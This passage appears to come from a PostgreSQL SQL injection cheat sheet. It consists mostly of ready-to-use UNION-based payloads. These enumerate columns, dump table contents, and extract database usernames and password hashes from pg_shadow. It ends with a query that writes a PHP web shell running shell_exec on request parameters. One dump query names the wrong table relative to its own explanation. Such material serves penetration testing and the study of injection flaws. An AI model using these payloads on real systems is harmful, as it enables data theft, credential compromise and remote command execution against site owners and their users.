 ```

If none of the mentioned queries worked, try dumping with **ARRAY_AGG** function (thanks [@Nikhil](https://github.com/0xw0lf) for the query):  
```-1' UNION ALL SELECT NULL,NULL,ARRAY_AGG(COALESCE(attname::text,(CHR(32))))::text,NULL,NULL FROM pg_attribute b JOIN pg_class a ON a.oid=b.attrelid JOIN pg_type c ON c.oid=b.atttypid JOIN pg_namespace d ON a.relnamespace=d.oid WHERE b.attnum>0 AND a.relname='<table>' AND nspname='<database>'--```

### Dump data  
Assume that inside table **users** there is a column called **password**, let's dump that column:  
```' union select cast(data_column as int), null, null, null FROM password--+```  
or without casting to int:  
```' union select data_column, null, null, null FROM password--+```  

Another query to dump data via **ARRAY_AGG** function (thanks [@Nikhil](https://github.com/0xw0lf) for the query):  
```1' UNION ALL SELECT NULL,ARRAY_AGG(COALESCE(name::text,(' ')))::text,NULL,NULL,NULL FROM <database>.<table> ORDER BY <column>--```  
For example:  
```1' UNION ALL SELECT NULL,ARRAY_AGG(COALESCE(name::text,(' ')))::text,NULL,NULL,NULL FROM public.users ORDER BY name--```

### Dump PostgreSQL user's username & password hash  
Let's assume that the database has 5 columns and the first one is vulnerable.   

Dump postgres username:  
```'+union+select+cast(usename+as+int),null,null,null,null++FROM+pg_shadow--```  
If that doesn't work, try the same query without doing the casting to int:  
```http://website.com/products/detail?id=-1' union select usename,null,null,null,null from pg_shadow--```  

Dump postgres user's password:  
```'+union+select+cast(passwd+as+int),null,null,null,null++FROM+pg_shadow--```  
If that doesn't work, try the same query without doing the casting to int:   
```http://website.com/products/detail?id=-1' union select passwd,null,null,null,null from pg_shadow--```  

### Write file (Webshell)

```UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --```
